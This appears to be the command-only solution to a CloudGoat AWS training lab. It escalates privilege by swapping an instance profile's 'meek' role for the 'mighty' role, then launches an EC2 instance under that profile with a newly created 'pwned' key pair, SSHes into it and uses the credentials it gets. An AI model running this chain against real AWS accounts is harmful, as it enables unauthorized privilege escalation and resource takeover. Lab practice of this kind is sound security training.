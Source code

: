 `aws configure --profile Kerrigan`

`aws ec2 describe-instances --profile Kerrigan`

`aws iam list-instance-profiles --profile Kerrigan`

`aws iam list-roles --profile Kerrigan`

`aws iam remove-role-from-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-meek-role-<cloudgoat_id> --profile Kerrigan`

`aws iam add-role-to-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-mighty-role-<cloudgoat_id> --profile Kerrigan`

`aws ec2 create-key-pair --key-name pwned --profile Kerrigan --query 'KeyMaterial' --output text > pwned.pem`

`chmod 400 pwned.pem`

`aws ec2 describe-subnets --profile Kerrigan`

`aws ec2 describe-security-groups --profile Kerrigan`

`aws ec2 run-instances --image-id ami-0a313d6098716f372 --instance-type t2.micro --iam-instance-profile Arn=<instanceProfileArn> --key-name pwned --profile kerrigan --subnet-id <subnetId> --security-group-ids <securityGroupId>`

`ssh -i pwned.pem ubuntu@<instancePublicDNSName>`

`sudo apt-get update`

`sudo apt-get install awscli`

`aws ec2 describe-instances --region us-east-1`

`aws ec2 terminate-instances --instance-ids <instanceId> --region us-east-1`
